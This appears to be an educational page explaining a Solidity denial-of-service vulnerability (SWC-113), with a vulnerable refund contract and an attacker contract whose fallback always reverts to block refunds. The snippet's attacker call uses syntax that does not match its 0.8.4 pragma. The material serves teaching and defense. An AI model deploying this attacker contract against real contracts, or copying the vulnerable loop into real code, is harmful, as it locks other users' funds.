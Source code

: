# DoS Attack Contract

This set of contracts shows how a contract may be susceptible to a denial of service attack by an unexpected revert ([SWC-113](https://swcregistry.io/docs/SWC-113){target=\_blank}).

The `VulnerableContract` loops over the subscribers array, making a transfer to each address. This is dangerous because when the `refundFees()` function is called and the `VulnerableContract` attempts to send funds to the `MaliciousContract`, the `MaliciousContract` fallback function is called, which stops execution and reverts. This transaction will never succeed and `refundFees()` will never successfully execute, preventing any subscribers from getting their subscription fee back.

```solidity
pragma solidity 0.8.4;

// Example DenialOfService Attack
contract VulnerableContract {
  address owner = msg.sender;
  address payable[] public subscribers;
  uint FEE_COST = 1 ether;

  function subscribe() public payable {
    require(msg.value == FEE_COST, "Insufficient msg.value");
    subscribers.push(msg.sender);
  }

  function refundFees() public {
    require(msg.sender == owner, "msg.sender should be owner");
    for(uint i = subscribers.length; i > 0; i--) {
      subscribers[i - 1].transfer(FEE_COST);
      subscribers.pop();
    }
  }

  function getBalance() view public returns(uint) {
    return address(this).balance;
  }

  // Auxiliar function for demo. It wouldn't be present in a vulnerable contract
  function removeLastSubscriber() public {
    subscribers.pop();
  }

}

contract MaliciousContract {
  VulnerableContract vulnerableContract = VulnerableContract(0x5E72914535f202659083Db3a02C984188Fa26e9f);

  function subscribe() public payable {
    vulnerableContract.subscribe.value(msg.value)();
  }

  fallback() external payable {
    require(false);
  }
}
```
